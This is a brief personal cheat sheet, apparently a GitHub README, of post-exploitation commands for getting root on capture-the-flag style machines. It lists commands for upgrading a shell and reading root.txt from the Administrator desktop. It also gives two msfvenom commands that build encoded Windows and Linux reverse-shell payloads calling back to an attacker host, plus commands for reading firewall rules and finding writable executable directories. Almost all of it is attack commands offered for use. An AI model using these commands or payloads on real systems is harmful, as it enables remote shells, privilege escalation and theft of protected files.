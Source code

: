 This is things to-do to get root


# Shell todos

1. Better shell
```
python -c "import pty;pty.spawn('/bin/bash');"
```

2. Get tab autocomplete
```
^Z
stty raw -echo
fg + enter
```
3. clearScreen on ctrl+l
```
export TERM=xterm
```

4.
getting root.txt
```
more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
```

5.
reverse shells 

msfvenom -l to get wwhat u can put on -p (-p is where will this shell run, -f is what is programming language )

```
32 bit reverse shell on windows
/usr/src/metasploit-framework/msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1001 -f python -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

```
32 bit linux
/usr/src/metasploit-framework/msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1001 -f c -a x86 --platform linux -b "\x00\x0a\x0d" -e x86/shikata_ga_nai


```

6.
looking into iptables rules
```
cat /etc/iptables/rules.v4
```

7.
To knowucan run scripts on /dev/shm ot /tmp 
```
$ mount
```
tell which directly got EXEC
